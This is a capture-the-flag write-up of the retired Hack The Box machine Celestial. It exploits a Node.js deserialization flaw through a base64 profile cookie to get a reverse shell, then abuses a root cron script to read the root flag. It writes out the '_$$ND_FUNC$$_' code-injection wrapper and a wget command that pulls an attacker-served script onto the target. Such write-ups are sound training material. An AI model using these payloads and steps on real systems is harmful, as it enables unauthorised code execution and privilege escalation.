# Celestial Write-up (HTB)

_This is a write-up for the recently retired Celestial machine on the [Hack The Box](https://www.hackthebox.eu) platform. If you don’t already know, Hack The Box is a website where you can further your cyber security knowledge by hacking into a range of different machines. At any stage in the write-up, you can click on a command to be redirected to a page which describes what the command does._

TL;DR: Node.js Serialization Vulnerabilities. | Celestial was a really fun box to do, since it was very well-structured and there was little guesswork involved. Although the priv-esc was a simple root crontab exploit, I learnt a lot about serialization vulnerabilities whilst getting the user flag.

#### PART ONE: USER

Our initial nmap scan revealed only one open port:

](https://cdn-images-1.medium.com/max/1088/1*8y2y6rzYp_nylAb6lRDt5A.png)

We now know that the server is running Node.js Express, with port 3000 service HTTP. Right, so we’ve got a page that we can open in the browser, but no SSH port (or anything to that effect), so we know straight away that we don’t have to be on the lookout for credentials or SSH keys.

At first, visiting the page seems to just throw a 404 error:



However, on refresh, we are presented with something entirely different:



From this, we can work out that there is clearly some form of cookie being given and then used here.

Let’s see what Burp has to say about this:



We can see the following cookie:

```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

I then sent this request onto the Repeater with CTRL+R, to manipulate the cookie a little.

Once there, we can decode the cookie by highlighting it and pressing CTRL+SHIFT+U (to URL decode it), and CTRL+SHIFT+B (to Base64 decode it).



As shown, the cookie is:

```
{“username”:”Dummy”,”country”:”Idk Probably Somewhere Dumb”,”city”:”Lametown”,”num”:”2"}
```

So, we can manipulate this, re-encode it and then send it back to receive a matching output:



I then spent some time messing around with different values, looking for some form of command injection, however nothing was immediately visible.

After some time blindly trying to inject something, I searched for related exploits online:



Well, this looks promising enough.

The [first link](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) contains a fairly in-depth explanation of the exploit, but I will briefly go over the steps here too.

We first need to generate a payload using a script that can be found [here](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py), as shown:



We then have to serialize this output. Since I couldn’t find an easy way to do this, I instead just did it manually. I know this sounds dumb, but it’s actually way easier than it sounds. Essentially, we just have to add…

```
**{“rce”:”_$$ND_FUNC$$_function (){**
```

…to the start of the string, and add…

```
**}()"}**
```

…to the end.

We then copy this serialized string and put it in as the profile cookie in Burp, and Base64/URL encode it:



Sending this doesn’t return an output, and so it may have executed code instead.

I then opened up a simple netcat listener to catch the callback, before launching the request again:

](https://cdn-images-1.medium.com/max/976/1*80rFe1WzP2fXmkqRrkbMAw.png)

And with that, we’re connected! We can then launch a proper terminal with python:

.](https://cdn-images-1.medium.com/max/732/1*-yWLgPklsYE5qfGbxylbsg.png)

#### PART TWO: ROOT

Interestingly, there is another file in the Documents folder:

This script contains nothing but one line.

```
$ cat script.py

print "Script is running..."
```

We’ve seen similar scripts in previous boxes, and these scripts all seem to run as root. As such, I wrote a short script to read the root flag, and write it to a file:



I chose a really obscure directory to write the flag to because the machine is public, and so I didn’t want other people stumbling across the flag before I had time to delete it.

I then downloaded this to the box by serving it via a SimpleHTTPServer:

 // [wget http://10.10.14.141:1338/script.py](https://www.explainshell.com/explain?cmd=wget+http%3A%2F%2F10.10.14.141%3A1338%2Fscript.py)](https://cdn-images-1.medium.com/max/878/1*P1V5r9RhtsNILecfrU5kWA.png)

After around a minute, the root flag appeared in the **errors.log** file that I specified in the script:



As such, we have the root flag!